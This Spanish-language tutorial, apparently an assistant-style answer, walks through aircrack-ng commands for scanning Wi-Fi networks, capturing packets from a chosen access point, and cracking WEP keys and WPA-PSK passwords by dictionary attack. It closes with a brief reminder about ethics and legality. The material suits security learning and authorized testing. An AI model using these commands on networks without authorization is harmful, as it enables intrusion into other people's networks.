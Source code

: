 ### Aquí tienes algunos ejemplos detallados de usos comunes y eficientes de `aircrack-ng` a un nivel medio:

1. **Escaneo de redes y selección de objetivo:**

   Para listar las redes Wi-Fi disponibles:

   ```bash
   airodump-ng wlan0
   ```

   Para enfocarte en una red específica (supongamos que el BSSID es `00:11:22:33:44:55` y ESSID es `Mi_Red`):

   ```bash
   airodump-ng --bssid 00:11:22:33:44:55 -c 6 wlan0
   ```

2. **Captura de paquetes:**

   Para capturar paquetes en una red específica en un archivo:

   ```bash
   airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w captura wlan0
   ```

   Esto capturará paquetes en el canal 6 de la red con BSSID `00:11:22:33:44:55` y guardará la información en archivos con el prefijo `captura`.

3. **Crackeo de una red WEP:**

   Utilizando la información capturada anteriormente:

   ```bash
   aircrack-ng -b 00:11:22:33:44:55 captura-01.cap
   ```

   Esto intentará crackear la clave de la red WEP con la dirección MAC del punto de acceso `00:11:22:33:44:55` usando el archivo de captura `captura-01.cap`.

4. **Crackeo de una red WPA-PSK:**

   Utilizando un diccionario de contraseñas:

   ```bash
   aircrack-ng -w diccionario.txt captura-01.cap
   ```

   Intentará crackear la clave de la red WPA-PSK utilizando un diccionario de contraseñas llamado `diccionario.txt` y el archivo de captura `captura-01.cap`.

Estos ejemplos muestran cómo escanear redes, capturar paquetes y realizar ataques de crackeo en redes WEP y WPA-PSK, utilizando comandos simples pero efectivos de `aircrack-ng`. Siempre recuerda la importancia de la ética y la legalidad al utilizar estas herramientas.
